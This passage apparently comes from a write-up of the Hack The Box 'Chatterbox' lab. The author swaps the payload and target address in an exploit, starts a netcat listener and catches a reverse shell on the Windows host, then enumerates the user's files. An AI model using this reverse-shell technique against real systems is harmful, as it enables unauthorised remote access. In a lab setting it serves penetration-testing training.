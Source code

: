 Now I replaced the payload along with `server_address = ('10.10.10.74', 9256)` with victim machine IP address and started listener on port 4444 .

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Chatterbox]
└─$ rlwrap nc -lvnp 4444                                 
listening on [any] 4444 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.10.74] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
C:\Windows\system32>
C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>hostname
hostname
Chatterbox

C:\Windows\system32>cd C:\Users\Alfred
cd C:\Users\Alfred
C:\Users\Alfred>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 00000200 502F:F304
C:.
+---Contacts
|       Alfred.contact
|       
+---Desktop
|       user.txt
|       
+---Documents
+---Downloads
|       MSEInstall.exe
|       
+---Favorites
|   +---Links
|   |       Suggested Sites.url
|   |       Web Slice Gallery.url
|   |       
|   +---Links for United States
|   |       GobiernoUSA.gov.url
|   |       USA.gov.url
|   |       
|   +---Microsoft Websites
|   |       IE Add-on site.url
|   |       IE site on Microsoft.com.url
|   |       Microsoft At Home.url
|   |       Microsoft At Work.url
|   |       Microsoft Store.url
|   |       
|   +---MSN Websites
|   |       MSN Autos.url
|   |       MSN Entertainment.url
|   |       MSN Money.url
|   |       MSN Sports.url
|   |       MSN.url
|   |       MSNBC News.url
|   |       
|   \---Windows Live
|           Get Windows Live.url
```
